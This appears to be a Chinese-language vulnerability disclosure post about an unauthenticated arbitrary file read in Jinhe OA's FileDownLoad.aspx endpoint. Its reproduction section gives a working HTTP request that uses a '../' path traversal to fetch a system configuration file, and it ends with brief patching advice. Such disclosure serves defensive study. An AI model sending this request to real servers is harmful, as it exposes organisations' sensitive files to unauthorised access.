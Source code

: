 ﻿@[toc]
# 免责声明
没有网络安全就没有国家安全，该文章只为学习和交流，利用做违法乱纪的事，与本人无关
# 漏洞描述
金和网络是专业信息化服务商,为城市监管部门提供了互联网+监管解决方案,为企事业单位提供组织协同
# 漏洞原理
在FileDownLoad.aspx接口存在文件读取的漏洞，未经授权攻击者可以用过调用该接口获取系统的敏感信息

# 影响版本
`>最新版本`

# 漏洞复现
构造请求包
```yaml
GET /c6/JHSoft.Web.CustomQuery/FileDownLoad.aspx?FilePath=../Resource/JHFileConfig.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Connection: close
```
发送请求包
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/cc18d691849340f99f9179139b1e3a9a.png)
# 修复建议
更新到最新版本


